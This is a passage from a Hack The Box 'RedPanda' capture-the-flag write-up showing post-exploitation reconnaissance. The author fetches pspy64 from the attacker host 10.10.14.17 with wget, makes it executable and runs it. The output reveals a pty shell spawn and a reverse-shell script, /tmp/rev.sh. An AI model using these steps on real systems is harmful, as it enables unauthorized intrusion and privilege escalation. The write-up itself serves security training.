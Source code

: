 The files are owned by root and we are able to read them, but for the moment we don't know how to use them. Let's get pspy64 on the victim and give executable permission.
```bash
woodenk@redpanda:~$ wget http://10.10.14wget http://10.10.14.17/pspy64
wget http://10.10.14.17/pspy64
--2024-05-20 08:30:21--  http://10.10.14.17/pspy64
Connecting to 10.10.14.17:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3104768 (3.0M) [application/octet-stream]
Saving to: ‘pspy64’

pspy64                                            100%[=============================================================================================================>]   2.96M  7.63MB/s    in 0.4s    

2024-05-20 08:30:21 (7.63 MB/s) - ‘pspy64’ saved [3104768/3104768]

woodenk@redpanda:~$ chmod +x pspy64     chmod +x pspy64
chmod +x pspy64

```
This tool can help us identify running processes.
```bash
woodenk@redpanda:~$ ./pspy64            ./pspy64
./pspy64
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scanning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
done
2024/05/20 08:32:03 CMD: UID=0     PID=3601   | /lib/systemd/systemd-udevd 
2024/05/20 08:32:03 CMD: UID=1000  PID=3594   | ./pspy64 
2024/05/20 08:32:03 CMD: UID=0     PID=3323   | 
2024/05/20 08:32:03 CMD: UID=0     PID=3248   | 
2024/05/20 08:32:03 CMD: UID=1000  PID=3121   | /bin/bash 
2024/05/20 08:32:03 CMD: UID=1000  PID=3120   | python3 -c import pty;pty.spawn("/bin/bash") 
2024/05/20 08:32:03 CMD: UID=1000  PID=3063   | bash 
2024/05/20 08:32:03 CMD: UID=1000  PID=3061   | bash /tmp/rev.sh 

```
After a couple of minutes we can see some process keep coming back in the results.
![Image](/assets/img/WriteUp/HTB/RedPanda/Pasted image 20240520104207.png){: width="700" height="400" }
Let's find out how we can use those. First let's check `/opt/cleanup.sh`.
